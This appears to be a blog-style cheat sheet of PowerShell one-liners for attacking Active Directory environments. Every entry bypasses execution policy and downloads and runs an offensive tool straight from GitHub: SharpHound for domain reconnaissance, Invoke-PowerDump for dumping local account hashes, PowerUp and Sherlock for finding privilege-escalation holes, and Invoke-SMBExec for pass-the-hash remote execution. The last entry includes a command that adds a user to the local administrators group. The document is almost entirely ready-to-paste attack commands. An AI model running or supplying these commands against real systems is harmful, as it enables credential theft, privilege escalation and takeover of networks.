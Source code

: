 ```yaml
---
title: Powershell One-Liners
author: asphixie
date: 2023-03-10 20:55:00 +0800
categories: [Active Directory]
pin: true
comments: false
---
```


# PowerShell One-Liners

## Bloodhound : Using ingestors to collect the data and then send it to BloodHound.

```powershell
powershell.exe -exec Bypass -C "IEX(New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1');Invoke-BloodHound"
```

## PowerDump : Dump all local accounts.

```powershell
powershell.exe -exec Bypass -C "IEX(New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-PowerDump.ps1');Invoke-PowerDump"
```

## PowerUp : Check for privilege escalation.

```powershell
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1’);Invoke-AllChecks"
```

## Sherlock : An old tool to find vulnerabilities on the host. Can be still interesting.

```powershell
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1’); Find-AllVulns"
```

## Invoke-SMBExec : Remote command execution by using a hash :
```powershell
powershell.exe -exec Bypass -C "IEX(New-Object Net.Webclient).DownloadString(‘https://github.com/Kevin-Robertson/Invoke-TheHash/raw/master/Invoke-SMBExec.ps1’);"
Invoke-SMBExec -hash HASH -Target HOSTNAME -Domain DOMAIN -Username USERNAME -Command “net localgroup Administrateurs USERNAME /ADD” -verbose
```
